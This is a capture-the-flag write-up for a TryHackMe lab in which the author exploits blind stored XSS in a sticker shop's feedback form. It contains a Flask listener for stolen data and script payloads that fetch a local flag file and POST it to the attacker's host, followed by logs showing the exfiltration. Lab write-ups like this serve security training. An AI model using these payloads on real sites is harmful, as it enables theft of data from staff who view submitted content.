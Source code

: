 # Can you exploit the sticker shop in order to capture the flag?
https://tryhackme.com/room/thestickershop

# Reconnaissance
Not much to see, there is a feedback page

# Findings
feedback does not appear to be variable to XSS, but does give a clue once submited **Thanks for your feedback! It will be evaluated shortly by our staff**
# Exploiting Findings

Spinning up a flask server on our attack box / VPN address to capture post request on port 5000

```
nano flaskserverpost.py
```

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/steal', methods=['POST'])
def steal():
    data = request.data.decode('utf-8')  # Read raw POST data
    print(f"Stolen Data: {data}")
    return "Data received", 200

if __name__ == '__main__':
    app.run(host='10.4.114.252', port=5000)
```

```
python flaskserverpost.py
 * Serving Flask app 'flaskserverpost'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://10.4.114.252:5000
```

Sending a test post by summiting the following in the feedback form
```
<script>fetch("http://10.4.114.252:5000/steal", {
    method: "POST",
    headers: { "Content-Type": "text/plain" },
    body: "test_post"
});</script>
```

Yes we get the following in the flask server, this also shows us CORs shouldn't be an issue

```
└─$ python flaskserverpost.py
 * Serving Flask app 'flaskserverpost'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://10.4.114.252:5000
Press CTRL+C to quit
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:28] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:38] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:48] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:59] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:15:09] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
```

Now to attempt steal the flag

```
<script>
fetch("http://10.10.138.151:8080/flag.txt")
  .then(r => r.text())
  .then(d => { console.log(d); return fetch("http://10.4.114.252:5000/steal", {method: "POST", headers: {"Content-Type": "text/plain"}, body: d}); });
</script>
```

No returned data, maybe if we used localhost? 

```
<script>
fetch("http://127.0.0.1:8080/flag.txt")
  .then(r => r.text())
  .then(d => { console.log(d); return fetch("http://10.4.114.252:5000/steal", {method: "POST", headers: {"Content-Type": "text/plain"}, body: d}); });
</script>
```

Yes! flag is returned

```
─$ python flaskserverpost.py
 * Serving Flask app 'flaskserverpost'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://10.4.114.252:5000
Press CTRL+C to quit
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:28] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:38] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:48] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:59] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:15:09] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:15:19] "POST /steal HTTP/1.1" 200 -
Stolen Data: THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
10.10.138.151 - - [19/Mar/2025 02:16:11] "POST /steal HTTP/1.1" 200 -
Stolen Data: THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
10.10.138.151 - - [19/Mar/2025 02:16:21] "POST /steal HTTP/1.1" 200 -

```

# Summary 
Not much to this CTF, the deviation on the "easy" difficulty is quite large. 